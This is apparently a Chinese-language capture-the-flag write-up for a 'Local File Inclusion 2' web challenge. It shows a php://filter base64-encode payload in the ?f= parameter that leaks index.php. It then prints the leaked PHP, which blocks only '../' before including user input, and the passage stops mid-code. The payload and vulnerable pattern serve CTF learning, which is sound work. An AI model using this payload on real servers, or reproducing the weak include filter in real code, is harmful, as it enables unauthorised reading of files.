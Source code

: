 ```http://140.110.112.32:2004/```

![](https://i.imgur.com/yBFKlvD.png)


## Local File Inclusion 2

首先這種題目一定是先用./去戳戳看，但是它跳出了
![](https://i.imgur.com/1DYlEDA.png)

所以果斷換個方式，接下來將網址後面改成這串去戳戳看
```140.110.112.32:4005/?f=php://filter/read=convert.base64-encode/resource=index.php```

它就炸了..
然後噴出這一串
![](https://i.imgur.com/rwMY1Fa.png)
照慣例把它給拿去base 64 decode
然後它會噴出一堆html
```htmlmixed=
<html>
<head>
<meta charset="UTF-8">
<title>Article System</title>

<link href="https://getbootstrap.com/docs/4.0/dist/css/bootstrap.min.css" rel="stylesheet">
</head>
<body>

<header>
      <!-- Fixed navbar -->
      <nav class="navbar navbar-expand-md navbar-dark fixed-top bg-dark">
        <a class="navbar-brand" href="#">MyBLOG</a>
        <button class="navbar-toggler" type="button" data-toggle="collapse" data-target="#navbarCollapse" aria-controls="navbarCollapse" aria-expanded="false" aria-label="Toggle navigation">
          <span class="navbar-toggler-icon"></span>
        </button>
        <div class="collapse navbar-collapse" id="navbarCollapse">
          <ul class="navbar-nav mr-auto">
            <li class="nav-item active">
              <a class="nav-link" href="/index.php">Home<span class="sr-only">(current)</span></a>
            </li>
            <li class="nav-item">
              <a class="nav-link" href="/?f=about.php">Ablout</a>
            </li>
            <li class="nav-item">
              <a class="nav-link" href="/?f=xd.php">XD</a>
            </li>
          </ul>
          <form class="form-inline mt-2 mt-md-0">
            <input class="form-control mr-sm-2" type="text" placeholder="Search" aria-label="Search">
            <button class="btn btn-outline-success my-2 my-sm-0" type="submit">Search</button>
          </form>
        </div>
      </nav>
    </header>
<main role="main" class="container">
<br><br><br><br>
        <?php
        // here is no flag Q___Q
        // flag is in /flag
        $f = $_GET['f'];
        if(stripos($f, "../") !== FALSE) {
```
